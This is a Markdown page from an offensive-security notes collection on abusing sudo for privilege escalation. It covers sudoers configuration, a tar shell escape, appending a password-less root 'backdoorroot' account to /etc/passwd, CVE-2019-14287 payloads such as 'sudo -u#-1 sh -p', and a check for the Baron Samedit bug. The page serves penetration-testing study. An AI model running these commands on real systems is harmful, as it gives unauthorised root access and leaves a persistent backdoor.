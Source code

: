 # SUDO

## Theory

`sudo` (Super User DO) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user (by default, the superuser).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers ( 😯 _I know right, big brains here_ 🧠 ). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 (read-only) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](./assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following (default config for a new sudoer).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo `.

### Living off the land

While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 (#-1)

With SUDO running version < 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier (the yellow and green parts in [the doodle above](sudo.md#theory)).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

> [!TIP]
> Some technical details to the vulnerability
> 
> Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its 32-bit unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.
> 
> Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.
> 
> More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

### CVE-2021-3156 (Baron Samedit)

With SUDO running version < 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## Resources

[https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo)

[https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4](https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4)

[https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)

